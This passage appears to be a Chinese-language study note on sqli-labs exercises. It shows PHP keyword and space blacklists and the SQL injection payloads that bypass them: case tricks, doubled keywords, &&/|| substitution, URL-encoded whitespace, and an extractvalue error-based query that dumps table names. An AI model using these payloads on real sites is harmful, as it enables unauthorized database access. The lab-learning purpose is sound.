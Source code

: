 然后就直接union注入秒了，其他的闭合方式仿照即可

## and和or过滤绕过

```php
function blacklist($id){
    $id = preg_replace('/or/i',"",$id);
    $id = preg_replace('/AND/i',"",$id);
    return $id;
}
这是过滤的源代码，即把and和or删除
```

绕过手法：

1. 使用大小写绕过，例如

   ```mysql
   ?id=1' anD 1=1--+
   ```

2. 复写过滤字符，例如

   ```mysql
   ?id=1' anandd 1=1--+
   ```

3. 用&&取代and，用||取代or，例如

   ```mysql
   ?id=1' && 1=1--+
   如果无法执行那么尝试换成url编码%26(&)
   ```

## 空格过滤绕过

以Less-26为例，查看源代码发现

```php
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
	$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
	$id= preg_replace('/[--]/',"", $id);		//Strip out --
	$id= preg_replace('/[#]/',"", $id);			//Strip out #
	$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
	$id= preg_replace('/[\/\\\\]/',"", $id);		//Strip out slashes
	return $id;
}
把or,and,/*,--,#,spaces,slashes都过滤掉了
```

```php
1.用+替代空格
2.使用URL编码替代空格
    spaces-------%20
    TAB 09 horizontal TAB-------%09
    LF OA newline-----------%0A
    FF OC new page-----------%0C
    CR 0D carriage return------%0D
    VT 0B vertical TAB----------%0B
    -OA-(MySQL only)---------%A0
    一个一个尝试，没有可以成功绕过的
3.使用报错注入
    ?id=0'||extractvalue(1,concat('~',(database())))||'1'='1
    成功
    之后可以将database()替换为:
select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())
```